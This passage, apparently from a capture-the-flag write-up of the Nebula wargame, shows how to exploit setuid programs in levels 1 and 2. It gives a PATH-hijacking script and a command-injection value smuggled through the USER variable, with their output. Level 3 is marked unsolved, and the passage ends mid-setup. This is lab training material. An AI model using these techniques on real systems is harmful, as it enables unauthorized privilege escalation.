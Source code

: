 		system("/usr/bin/env echo and now what?");
	}

As we all now `/usr/bin/env` executes a program with the current environment. And the environment includes the 
`$PATH` variable that specifies where programs can be found, such that users don't need to execute the whole path.

Of course we can set the PATH variable to some folder and include a program there which is called `echo`.

	:::bash
	mkdir /tmp/bin
	echo -e '#!/bin/bash\necho "executing with id $(id)";\ngetflag' > /tmp/bin/echo && chmod +x /tmp/bin/echo
	PATH=/tmp/bin/:$PATH

	level01@nebula:/home/flag01$ ./flag01 
	executing with id uid=998(flag01) gid=1002(level01) groups=998(flag01),1002(level01)
	You have successfully executed getflag on a target account


## Level 2 - Command Injection in setuid C programs

Level 2 is very easy. The vulnerability is a basic command injection flag. When you see the following lines
in the code:

	:::c
	buffer = NULL;

	asprintf(&buffer, "/bin/echo %s is cool", getenv("USER"));
	printf("about to call system(\"%s\")\n", buffer);
	
	system(buffer);

it becomes clear how to call `getflag` on the target account:

	:::bash
	level02@nebula:/home/flag02$ USER='; getflag; echo'
	level02@nebula:/home/flag02$ ./flag02 
	about to call system("/bin/echo ; getflag; echo is cool")

	You have successfully executed getflag on a target account
	is cool

I just ended the current command with `;` and appended our own command and 
closed it again with the original `echo` statement.


## Level 3 - Exploiting cronjobs

**NOT SOLVED YET**

In Level 3 we can write in the home directory and create our own executable scripts.
These are executed with a cronjob script that looks like this:
